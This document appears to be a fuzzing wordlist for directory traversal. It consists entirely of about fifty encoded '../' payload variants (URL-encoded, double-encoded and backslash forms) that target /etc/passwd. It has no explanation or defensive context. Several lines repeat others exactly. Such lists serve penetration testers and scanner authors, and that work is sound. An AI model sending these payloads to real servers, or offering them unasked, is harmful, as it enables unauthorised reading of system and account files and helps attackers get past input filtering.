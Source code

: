 ```txt
%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2E%2E/%2E%2E/etc/passwd
..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```